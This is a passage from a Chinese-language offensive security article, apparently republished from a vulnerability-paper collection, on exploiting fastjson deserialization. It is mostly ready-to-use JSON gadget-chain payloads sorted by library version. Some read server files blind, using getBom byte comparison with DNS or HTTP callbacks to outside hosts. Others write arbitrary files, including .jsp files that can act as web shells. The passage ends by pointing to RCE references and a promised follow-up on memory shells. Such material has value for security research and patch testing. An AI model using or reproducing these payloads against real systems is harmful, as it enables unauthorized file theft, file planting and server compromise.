{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Users/whoami/Desktop/testtest.txt"}]\}\\}\},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}


```

我这里`demo`复现是成功的，但是靶场没有成功，如果有兄弟成功了可以公众号后台直接发消息，我看到立马就会回复，并将这部分在我的博客中更新。

4.2 fastjson【1.2.37<=version<=1.2.68】
-------------------------------------

### 4.2.1 blackhat2021-getBom() 原版（适用场景有限）

`payload42`：

```
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///C:/Windows/win.ini"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          59
        ]
      }
    ]
  },
  "address" : {"$ref":"$.abc.BOM"}
}


```



> 它会拿`win.ini`的内容转成`int`数组，然后拿`ByteOrderMark`里的`bytes`挨个字节遍历去比对，如果遍历过程有比对错误的`getBom`就会返回一个`null`，如果遍历结束，没有比对错误那就会返回一个`ByteOrderMark`对象。所以这里文件读取成功的标志应该是`getBom`返回结果不为`null`。

有点`sql`注入中布尔盲注的味道，哈哈。

附上读取文件内容到字节数组的代码：

```
import java.io.FileReader;
import java.io.IOException;

public class str2bytes {
    public static String fileToString(String path) throws IOException {
        FileReader reader = new FileReader(path);
        StringBuilder stringBuilder = new StringBuilder();
        char[] buffer = new char[10];
        int size;
        while ((size = reader.read(buffer)) != -1) {
            stringBuilder.append(buffer, 0, size);
        }
        return stringBuilder.toString();
    }

    public static void main(String[] args) throws IOException {
        String str = fileToString("C:\\Windows\\win.ini");
        byte[] byteArray = str.getBytes("UTF-8");
        boolean first = true;
        for (byte b : byteArray) {
            int intValue = b & 0xFF;
            if (first) {
                System.out.print(intValue);
                first = false;
            } else {
                System.out.print(", " + intValue);
            }
        }
    }
}

//59, 32, 102, 111, 114, 32, 49, 54, 45, 98, 105, 116, 32, 97, 112, 112, 32, 115, 117, 112, 112, 111, 114, 116, 13, 10, 91, 102, 111, 110, 116, 115, 93, 13, 10, 91, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 109, 99, 105, 32, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 102, 105, 108, 101, 115, 93, 13, 10, 91, 77, 97, 105, 108, 93, 13, 10, 77, 65, 80, 73, 61, 49, 13, 10


```

### 4.2.2 blackhat2021-getBom() 浅蓝师傅改版（几乎适配所有场景）

`payload43`：

```
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String"{"$ref":"$.abc.BOM[0]"},"start":0,"end":0},"xxx":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://testhhh.okdplvnqdu.dgrh3.cn/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[1]}]},"zzz":{"$ref":"$.xxx.BOM[0]"\}\}


```



极端场景：有一个接口，用`fastjson`解析了`json`，但不会反馈任何能够作为状态判断的标识，连异常报错的信息都没有。

那么此时该`payload`就可以派上用场了，**如果以上`poc`收到了`dnslog`响应，那么说明字节码比对失败**，也就是第一个字节的`int`值不等于我们填入的那个数字（比如这里的`98`，此时我们就得更改数字继续测试）；如果没收到，说明比对成功，继续测试即可。

### 4.2.3 blackhat2021-getBom() tyskill 师傅改版（几乎适配所有场景）

`payload44`：

```
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98,]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://192.168.161.4:8085/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"$ref":"$.abc.BOM[0]"}]},"xxx":{"$ref":"$.address.BOM[0]"\}\}


```

该`payload`是浅蓝师傅的`payload`的改版，主要区别在于这个是`dnslog`或者`http`服务有响应说明字节码比对成功，和浅蓝的那个是反着来的。



五、文件写入
======

5.1 commons-io 2.x（1.2.37<=version<=1.2.68）
-------------------------------------------

### 5.1.1 最初公开的 payload（只能在 centos 下利用）

`payload45`：

```
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"C:/Users/whoami/Desktop/testtesttest.txt",
                "append":false
            },
            "infl":{
                "input":"SGVsbG8sIFcwMWZoNGNrZXIh"
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}


```

`Windows`下利用会报错，只能在目标是`centos`的情况下使用：



至于为什么会这样，请参考以下文章，写的很清楚很明白，在此不再赘述：

> https://www.cnblogs.com/zpchcbd/p/14969606.html

### 5.1.2 commons-io 2.0~2.6 版本

`payload46`：

需要注意，需要修改下面的`W01fh4ckeraaaaaa...`为自己想要写入的内容，需要注意的是，**长度要大于`8192`，实际写入前`8192`个字符**！具体原因请参考下面的文章，文章里面写的非常清楚：

> https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg

```
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.txt","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"\}\\}\}


```



### 5.1.3 commons-io 2.7~2.8.0 版本

和上面大差不差，同样需要自行修改写入内容。

`payload47`：

```
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"2.txt","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"\}\\}\}


```



5.2 ognl+commons-io 2.x（1.2.73<=version<=1.2.80）
------------------------------------------------

### 5.2.1 ognl+commons-io 2.0~2.6 版本

`payload48`：

同样是省略了一堆`a`，需要自行修改补充。

```
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""\}\},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},}


```



### 5.2.2 ognl+commons-io 2.7~2.8 版本

`payload49`：

```
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""\}\},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker666.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}\}\\}\}


```



### 5.2.3 ognl+commons-io+aspectjtools+commons-codec 组合利用链

这条链主要是为了解决前面提到的的`io`链无法写入复杂文件结构的问题，文件依旧需要大于`8kb`才能写入。`poc`地址如下：

> https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26_ognl_io_write_4.java

5.3 xalan+dom4j+commons-io（1.2.73<=version<=1.2.80）
---------------------------------------------------

### 5.3.1 xalan+dom4j+commons-io（2.0~2.6 版本）

分四步打，自行修改写入内容。

`payload50`（组合拳）：

```
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{\}\}


```

```
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{\}\}\}\}


```

```
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"\}\}\}\}\}\\}\}


```

```
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker888.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}


```



### 5.3.2 xalan+dom4j+commons-io（2.7~2.8 版本）

还是分四步打。

`payload51`（组合拳）：

```
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{\}\}


```

```
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{\}\}\}\}


```

```
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"\}\}\}\}\}\\}\}


```

```
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker999.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]\}\}


```



### 5.3.3 xalan+dom4j+commons-io+aspectjtools+commons-codec 组合利用链

这条链主要是为了解决前面提到的的`io`链无法写入复杂文件结构的问题，文件依旧需要大于`8kb`才能写入。`poc`地址如下：

> https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson31_xalan_dom4j_io_write_4.java

5.4 覆盖 charsets.jar 导致 RCE
--------------------------

这里不做复现，可参考：

> https://landgrey.me/blog/22/
> 
> https://threedr3am.github.io/2021/04/14/JDK8 任意文件写场景下的 SpringBoot RCE/
> 
> https://forum.butian.net/share/1623
> 
> https://mp.weixin.qq.com/s/0yyZH_Axa0UTr8kquSixwQ

其中第四篇是对其做了完整详细的复现。

六、总结与致谢
=======

由于接下来一段时间会很忙，因此还是决定把`fastjson`利用提高篇分两部分来写，第一部分也就是本文主要介绍各个`json`库之间的判断方法、`fastjson`版本判断方法、服务器环境的探测方法、文件读取的方法以及文件写入的方法。

在第二篇文章中，我们将讨论`fastjson`各版本的`rce`的`payload`、`fastjson`内网不出网情况下的利用、`fastjson`内存马注入。

由于经常熬夜，写文章的时候难免头脑发昏出现错误，欢迎在公众号后台或者我的朋友圈留言指出，我将在下一篇文章的开头对提出来的师傅进行感谢。

感谢以下师傅写的文章，本文或参考或引用，在他们的基础上进行了总结和修改：

```
https://b1ue.cn/archives/402.html
https://blog.csdn.net/m0_71692682/article/details/125814861
https://mp.weixin.qq.com/s/jbkN86qq9JxkGNOhwv9nxA
https://github.com/safe6Sec/Fastjson
https://github.com/su18/hack-fastjson-1.2.80
https://kingx.me/Details-in-FastJson-RCE.html
https://blog.csdn.net/2301_77315080/article/details/133755409
https://hosch3n.github.io/2022/09/01/Fastjson1-2-80%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
https://wangdudu.blog.csdn.net/article/details/121627213
https://blog.noah.360.net/blackhat-2021yi-ti-xiang-xi-fen-xi-fastjsonfan-xu-lie-hua-lou-dong-ji-zai-qu-kuai-lian-ying-yong-zhong-de-shen-tou-li-yong-2/
https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg
https://blog.51cto.com/u_15945480/6028934
https://mp.weixin.qq.com/s/SwkJVTW3SddgA6uy_e59qg
https://moonsec.top/articles/112
https://y4er.com/posts/fastjson-1.2.80/#gadget
https://www.freebuf.com/news/347174.html
https://www.freebuf.com/vuls/361576.html
https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf
https://b1ue.cn/archives/506.html
https://mp.weixin.qq.com/s?src=11×tamp=1697804173&ver=4846&signature=hOU1Dr6toY8j7eZ0B9ztaRNcZRvWXgr8SW4ER3pbsNrHVxEkxKqLB38qX3BOfN8XgTKqHR9wH70P9nKtKEw5-XzOXS3YoxcDFhn4fi-Gw*x6gswLM2I2zq2i7BZ-PwI1&new=1
https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html
https://forum.ezreal.cool/thread-117-1-1.html
https://tyskill.github.io/posts/fastjson%E6%97%A0%E5%9B%9E%E6%98%BE%E8%AF%BB%E6%96%87%E4%BB%B6/
https://su18.org/post/fastjson/#%E5%9B%9B-payload
https://mp.weixin.qq.com/s/nKPsoNkHtNdOj-_v53Bc9w
https://xz.aliyun.com/t/12492#toc-4
https://landgrey.me/blog/22/
https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg
https://www.yulegeyu.com/
https://mp.weixin.qq.com/s/0yyZH_Axa0UTr8kquSixwQ


```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
